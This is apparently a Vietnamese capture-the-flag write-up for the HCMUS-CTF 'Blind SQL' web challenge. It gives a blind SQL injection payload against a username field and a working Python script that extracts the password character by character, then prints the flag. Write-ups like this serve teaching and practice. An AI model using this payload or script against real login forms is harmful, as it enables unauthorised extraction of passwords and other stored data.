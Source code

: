 # Web Exploitation - Blind SQL

Link: (http://159.65.13.76:1340/)

- Web challenge chỉ có 1 input field cho `username`, với kiểu blindSQLi này thì password là flag luôn

- Ta sẽ dùng SQLi payload sau để kiểm tra x kí tự đầu của password

```
admin' and binary(substring(password,1,x))='PWD
```

- Viết một python script đơn giản để dò password, flag chứa kí tự `A-Z`, `a-z`, `0-9`, `{}_`

```python
import requests 

dict = '}0123456789-_ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'

def query(flag, index):

    URL = 'http://159.65.13.76:1340/'

    if index == len(dict):
        print("NOT FOUND")
        exit(0)

    payload = "admin' and binary(substring(password,1," + str(len(flag)+1) + "))='" + flag + dict[index]

    data = {
        'username': payload
    }

    r = requests.post(url = URL, data = data)

    print(payload)

    response = r.text
    if ('Cannot' in response):
        query(flag, index + 1)# not matched
    else:
        flag = flag + dict[index]
        print("** FOUND ** ", flag)
        query(flag, 0) # matched

query('HCMUS-CTF{', 0)
```

Flag `HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}`